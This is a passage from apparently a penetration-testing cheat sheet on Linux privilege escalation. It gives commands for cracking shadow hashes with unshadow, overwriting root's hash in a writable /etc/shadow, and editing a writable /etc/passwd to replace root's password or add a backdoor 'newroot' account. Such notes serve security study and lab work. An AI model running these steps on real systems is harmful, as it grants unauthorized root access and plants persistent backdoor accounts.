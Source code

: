 * Transfer both back to attack box

```
unshadow passwd.txt shadow.txt > unshadowed.txt
```

#### Writeable shadow

```
ls -l /etc/shadow
```

* Generate a new password hash

```
mkpasswd -m sha-512 jackiscool
```

* Edit /etc/shadow and replace origional root user's password hash with the one that you just created
* Switch to the root user

```
su root
```

#### Writable passwd

* The /etc/passwd file contained user password hashes, and some versions of Linux still allow password hashes to be stored there
* The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user.

```
ls -l /etc/passwd
```

* Generate a new password hash with a password of your choice:

```
openssl passwd newpasswordhere
```

* Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").
* Switch to the root user, using the new password:

```
su root
```

* Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").
* Now switch to the newroot user, using the new password:

```
su newroot
```

### Passwords and Keys
